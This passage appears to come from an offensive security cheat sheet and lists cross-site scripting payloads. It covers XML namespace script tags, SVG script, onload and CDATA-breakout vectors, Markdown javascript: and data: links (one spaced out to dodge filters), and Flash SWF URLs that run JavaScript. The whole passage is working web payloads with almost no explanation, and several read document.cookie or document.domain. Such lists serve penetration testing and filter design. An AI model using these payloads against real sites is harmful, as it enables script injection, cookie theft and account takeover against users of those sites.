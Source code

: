 ### XSS in XML

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

### XSS in SVG

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

### XSS in SVG (short)

```javascript
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

### XSS in Markdown

```csharp
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```

### XSS in SWF flash application

```powershell
Browsers other than IE: http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain);
IE8: http://0me.me/demo/xss/xssproject.swf?js=try{alert(document.domain)}catch(e){ window.open(‘?js=history.go(-1)’,’_self’);}
IE9: http://0me.me/demo/xss/xssproject.swf?js=w=window.open(‘invalidfileinvalidfileinvalidfile’,’target’);setTimeout(‘alert(w.document.location);w.close();’,1);
```
